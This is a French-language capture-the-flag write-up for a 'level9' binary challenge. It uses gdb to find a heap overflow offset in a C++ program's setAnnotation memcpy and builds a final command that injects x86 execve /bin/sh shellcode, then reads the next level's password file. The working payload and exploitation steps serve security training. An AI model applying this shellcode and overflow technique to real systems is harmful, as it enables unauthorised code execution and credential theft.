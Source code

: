#level9

$ ./level9
$ ./level9 test
$ ./level9 test test

On remarque que le programme n'affiche rien.

Après une analyse avec gdb, on obtient les informations suivantes:

    N::N(int)
    N::setAnnotation(char*)
    N::operator+(N&)
    N::operator-(N&)
    main, C'est un programme en cpp qui n'appelle pas /bin/sh et ne recupère pas non plus le pass. Donc on va surement utilisé un shellcode.
    On va utiliser le memcpy sur argv[1] dans setAnnotation() pour faire appel au edx pour appeler le shellcode.

D'abord on récupère le offset:

> run 'AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZaaaabbbbccccddddeeeeffffgggghhhhiiiijjjjkkkkllllmmmmnnnnooooppppqqqqrrrrssssttttuuuuvvvvwwwwxxxxyyyyzzzz'
> The program being debugged has been started already.
> Start it from the beginning? (y or n) y

Starting program: /home/user/level9/level9 'AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZaaaabbbbccccddddeeeeffffgggghhhhiiiijjjjkkkkllllmmmmnnnnooooppppqqqqrrrrssssttttuuuuvvvvwwwwxxxxyyyyzzzz'

Program received signal SIGSEGV, Segmentation fault.
0x08048682 in main ()

> i r
> eax 0x62626262 1650614882
> ...

Donc on a eax a 62626262 -> bbbb donc le offset commence à 108.

Il nous faut l'adresse du buffer, donc on va mettre un breakpoint juste après le setAnnotation().

> b \*main+136
> Breakpoint 1 at 0x804867c
> run 'AAAA'
> Starting program: /home/user/level9/level9 'AAAA'

Breakpoint 1, 0x0804867c in main ()

> x $eax
> 0x804a00c: 0x41414141

Donc l'adresse du buffer est 0x804a00c. La valeur esp+0x10 va etre donc 0x804a00c mais vu qu'on va encore dereferencer, l'adresse va pointer au début du shellcode donc 0x804a00c + 4 = 0x804a010.

Notre commande finale est donc:
$ ./level9 $(python -c 'print "\x10\xa0\x04\x08" + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80" + "A" * 76 + "\x0c\xa0\04\x08"')

$cat /home/user/bonus0/.pass
